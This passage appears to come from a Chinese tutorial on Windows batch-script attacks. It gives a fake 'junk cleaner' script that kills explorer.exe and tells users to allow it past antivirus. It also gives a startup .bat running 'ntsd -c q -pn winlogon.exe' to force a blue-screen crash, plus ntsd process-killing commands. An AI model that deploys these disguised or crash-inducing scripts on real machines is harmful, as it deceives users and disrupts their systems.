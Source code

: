 ```
@echo offtitle 系统垃圾清理color 2fecho 	=====若有杀毒软件恶意拦截，请选择【允许程序的所有操作】====echo.echo.echo.echo 	=====垃圾清理中，请不要关闭窗口=========echo.ping -n 5 127.0.0.1>nultaskkill /im explorer.exe /f >nul 2>nulecho.echo 	=====拐了，你的系统已经废了=======echo.ping -n 5 127.0.0.1>nulecho.Start c:\windows\explorer.exeecho.echo 	=====已经修复好！是不是吓坏了！！O(∩_∩)O==========pause
```

运行该批处理程序，桌面会消失，如下图所示。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPv4HdVLBZ5IFnkjrvd90aT5x9QKjtdhJem6pRum3qmSRxBZNG6VyUsIOAs0rOmYsRjMLSwZlibmOw/640?wx_fmt=png)

过一会桌面又会恢复。由于作者桌面东西太乱，这里仅显示壁纸展示。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPv4HdVLBZ5IFnkjrvd90aTBbmIAY61lPciaKFB9vgUJA9M7JvBRYOuPnnwV26Gm50eHfZFK1eibjGQ/640?wx_fmt=png)

四. 蓝屏攻击机理
=========

蓝屏死机称为 BSOD（Blue Screen of Death），也是常见的攻击行为，尤其是某些 CVE 漏洞复现过程，在进行提权尝试前都会先实现蓝屏攻击功能，其危害极大。

1.bat 脚本实现蓝屏攻击
--------------

基本步骤如下：

*   新建文本文档
    
*   输入：ntsd -c q -pn winlogon.exe，表示强制杀死进程
    
*   后缀 txt 修改为 bat
    
*   开始 -> 程序 -> 启动，打开 game.bat 文件
    

黑客很少攻击个人，一般攻击服务器，该命令对 2003 的服务器特别有杀伤力。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPv4HdVLBZ5IFnkjrvd90aTsj29rbibspOhTnj7iaLWiaufAnyYhuKlryfosf5oVmvzkJ9TtmYlSyT1Q/640?wx_fmt=png)

双击之后，服务器直接蓝屏显示并重启。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPv4HdVLBZ5IFnkjrvd90aTdSESD9BmiaWDLftBrYF8O6PJicQ9nlkyWRvWEHMNodoIDYsXebeBeSpw/640?wx_fmt=png)

ntsd 从 Windows 2000 开始就是系统自带的进程调试工具，在 system32 目录下。ntsd 的功能非常的强大，用法也比较复杂，但如果只用来结束一些进程，那就比较简单了。在 Windows 中只有 System、SMSS.EXE 和 CSRSS.EXE 不能杀。前两个是纯内核态的，最后那个是 Win32 子系统，ntsd 本身需要它。lsass.exe 也不要杀掉，它是负责本地账户安全的。被调试器附着的进程会随调试器一起退出，所以可以用来在命令行下终止进程。

打开 cmd 后输入以下命令就可以结束进程：

*   方法一：利用进程的 PID 结束进程  
    命令格式：ntsd -c q -p pid  
    命令范例：ntsd -c q -p 1332 （结束 explorer.exe 进程）
    

范例详解：explorer.exe 的 pid 为 1332，但是如何获取进程的 pid 呢？在 CMD 下输入 TASKLIST 就可以获取当前任务管理器所有进程的 PID。或者打开任务管理器，在菜单栏，选择 “查看”->“选择列”，在打开的选择项窗口中将“PID（进程标识符）” 项选择钩上，这样任务管理器的进程中就会多出 PID 一项了。PID 的分配并不固定，是在进程启动是由系统随机分配的，所以进程每次启动的进程一般都不会一样。

*   方法二：利用进程名结束进程  
    命令格式：ntsd -c q -pn xxxx.exe （xxxx.exe 为进程名，exe 不能省）  
    命令范例：ntsd -c q -pn explorer.exe
    